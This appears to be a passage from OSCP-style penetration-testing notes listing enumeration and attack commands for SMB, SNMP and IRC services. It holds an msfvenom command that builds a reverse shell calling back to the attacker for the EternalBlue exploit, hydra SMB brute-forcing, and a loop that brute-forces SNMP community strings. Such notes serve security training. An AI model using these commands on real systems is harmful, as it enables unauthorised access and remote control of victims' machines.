 Automated enum
```bash
$ python3 ~/OSCP/Tools/enum4linux-ng/enum4linux-ng.py [target] 
```

Eternal Blue (MS17-010)
```bash
# check for vuln
# source: https://github.com/worawit/MS17-010/blob/master/checker.py
$ eternalblue/checker.py [target]
OR
$ sudo nmap --script smb-vuln-* [target] # nmap

# generse rshell payload -> exec exploit
# source: https://github.com/worawit/MS17-010/blob/master/zzz_exploit.py
$ msfvenom -p windows/shell_reverse_tcp LHOST=[kali] LPORT=666 EXITFUNC=thread -f exe -a x86 -o ms17-010.exe
$ msf17-010-send-and-receive.py [target] ms17-010.exe
```

SMB Login Brute-force (**last option**)
```
$ hydra -V -f -l [username] -P [/path/to/wordlist] smb # smb brute-force
```

### SNMP [161 UDP]

SNMP is an app-layer protocol for collecting and managing information about devices within a network.

SNMP enumeration:
(find further info about devices/software with vulns to gain a shell)
```bash
$ snmpwalk -c [community string] -v1 [ target ]
$ onesixtyone [ target ] -c community.txt
$ snmpenum
$ snmp-check [ target ]
```

Snmpwalk brute-force script:
* [Community string wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/SNMP/common-snmp-community-strings.txt)
```
#!/bin/bash
while read line; do
    echo "Testing $line"; snmpwalk -c $line -v1 10.10.10.105
done < community.txt
```

### IRC [194,6667,6660-7000 TCP]

IRC client
```
$ sudo apt-get install irssi
$ irssi -c [target] -p [port] -n [nickname]

!irc> /version
!irc> /list               # list channels + channel banner
!irc> /admin              # admin info
!irc> /oper [user] [pass] # login as operator (privileged user)
!irc> /join [channel]
!irc> /whois [user]       # user info

#channel> /names          # list users inside each channel
#channel> /leave          # leave channel
```
